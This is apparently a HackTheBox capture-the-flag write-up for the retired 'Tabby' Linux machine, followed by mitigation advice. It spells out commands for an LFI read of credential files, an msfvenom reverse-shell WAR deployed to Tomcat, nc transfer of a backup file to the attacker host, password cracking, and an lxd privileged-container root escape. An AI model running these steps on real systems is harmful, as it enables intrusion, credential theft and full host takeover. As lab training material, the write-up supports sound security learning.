



# Tabby

```
Platform    : HackTheBox
OS          : Linux
Difficulty  : Easy
Category    : Web / LFI / Container Escape
IP          : 10.129.252.11
```

---

## Summary

Initial access was gained through a Local File Inclusion vulnerability
in a PHP file parameter, used to leak Tomcat's manager credentials
from a configuration file. Those credentials allowed deploying a
malicious WAR file to get a shell as the `tomcat` user. Further
enumeration revealed a password-protected backup archive, cracked
offline to obtain the `ash` user's credentials. Privilege escalation
to root was achieved by abusing `ash`'s membership in the `lxd` group
to create a privileged container with the host filesystem mounted
inside it.

---

## Reconnaissance

```
nmap -p- -sS --min-rate 5000 -vvv -n -Pn --open 10.129.252.11 -oN scan.txt
nmap -p 22,80,8080 -sCV 10.129.252.11
```

Key findings:

- **Port 22** — OpenSSH 8.2p1 (Ubuntu)
- **Port 80** — Apache 2.4.41, hosting "Mega Hosting"
- **Port 8080** — Apache Tomcat

The host header resolved to `megahosting.htb` (added to `/etc/hosts`),
giving access to the site's virtual host configuration.

---

## Enumeration

The `file` parameter on the site was vulnerable to Local File
Inclusion, confirmed by reading `/etc/passwd`:

```
view-source:http://megahosting.htb/news.php?file=../../../../etc/passwd
```



Since Tomcat was running on port 8080, the LFI was used to pull
Tomcat's user configuration file, which exposed valid manager
credentials in cleartext:

```
view-source:http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```



```
tomcat : $3cureP4s5w0rd123!
```

Those credentials logged into the Tomcat Virtual Host Manager at
`http://megahosting.htb:8080/host-manager/html`:



---

## Foothold

A malicious WAR payload was generated with Metasploit:

```
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.149 lport=443 -f war -o pwn.war
```

Deployed to the Tomcat manager using the leaked credentials:

```
curl -v -u 'tomcat:$3cureP4s5w0rd123!' --upload-file pwn.war \
"http://megahosting.htb:8080/manager/text/deploy?path=/khaotic&update=true"
```

```
OK - Deployed application at context path [/khaotic]
```

Triggered to catch the reverse shell:

```
curl http://megahosting.htb:8080/khaotic/pwn.war
```

This landed a shell as the `tomcat` user.

---

## Privilege Escalation — User

Enumeration of the web root revealed a password-protected backup
archive:

```
tomcat@tabby:/var/www/html/files$ ls
16162020_backup.zip  archive  revoked_certs  statement
```

The archive was transferred out for offline cracking using `nc`:

```
# attacker
nc -l 443 > backup.zip

# victim
nc 10.10.14.149 443 < /var/www/html/files/16162020_backup.zip
```

Cracked with John the Ripper against `rockyou.txt`:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```
admin@it   (16162020_backup.zip)
```

This password was valid for the `ash` user, found via `su`:

```
tomcat@tabby:/var/www/html/files$ su ash
Password: admin@it
```

```
ash@tabby:~$ cat user.txt
662c297a92320f0c6d04b345ceeed446
```

---

## Privilege Escalation — Root

`ash` was found to be a member of the `lxd` group, which allows
creating and configuring LXD containers without `sudo`. An Alpine
container image was built locally and transferred to the target:

```
git clone https://github.com/saghul/lxd-alpine-builder
sudo ./build-alpine
```

```
ash@tabby:/tmp$ wget 10.10.14.149/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

The image was imported and launched as a **privileged** container,
with the host's root filesystem mounted inside it:

```
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Inside the container, the mounted host filesystem was accessible with
full root privileges:

```
~ # cd /mnt/root/root
/mnt/root/root # cat root.txt
384db9e7ac00947f2d9c223494ce21fe
```

---

## Root Cause & Mitigation

**Why this happens:**

By default, the LXD daemon runs with **root** privileges on the host
operating system. This is necessary because creating containers
requires direct interaction with the kernel — configuring virtual
network interfaces, managing storage, and mounting filesystems.

When a standard user is added to the `lxd` group, they gain the
ability to talk directly to this daemon over a local Unix socket,
without needing `sudo`. The actual weakness is that any member of the
`lxd` group can define the technical configuration of the container
they create — including running it in **privileged mode**
(`security.privileged=true`), which means the root user inside the
container retains real root capabilities on the host.

Combined with the ability to mount an arbitrary host path (such as `/`)
as a device inside that container, this gives an unprivileged user a
direct path to full host root: once inside the container as root,
the kernel enforces no privilege boundary on the mounted host
filesystem, exposing files like `/etc/shadow`, SSH keys, or any other
system file.

**How to mitigate it:**

- **Avoid adding standard users to the `lxd` group** unless strictly
  necessary. Group membership in `lxd` should be treated as equivalent
  to root access, since it is.
- **Disable unprivileged container creation** where possible, or
  enforce that containers are never launched with
  `security.privileged=true` for non-administrative users. LXD
  supports restricting this via project-level restrictions
  (`lxc project set <project> restricted=true` and related
  `restricted.containers.privilege` settings).
- **Restrict disk device mounting** in containers created by non-admin
  users — the ability to mount host paths should be limited to trusted
  operators only.
- **Principle of least privilege for group membership in general**:
  treat `lxd`, `docker`, and similar groups the same way you'd treat
  `sudo` access, since they all provide an equivalent escalation path.
- **Monitor for `lxc`/`lxd` command usage** by non-administrative
  accounts as a detection signal, since legitimate use by regular
  users is rare in most environments.

---

## Lessons Learned

- LFI vulnerabilities are rarely useful only for reading `/etc/passwd`
  — the real value comes from targeting configuration files of other
  services running on the host (in this case, Tomcat's credentials
  file), which turns a read-only bug into full remote code execution.
- Group memberships like `lxd`, `docker`, or `disk` are effectively
  root-equivalent and should always be checked early during privilege
  escalation enumeration (`id`, `groups`).
- Password reuse across a cracked backup archive and a system account
  was, once again, the actual bridge between two otherwise separate
  footholds — worth always testing recovered credentials broadly, not
  just against the service they came from.

---

<sub>Write-up published after machine retirement, per HackTheBox disclosure policy.</sub>
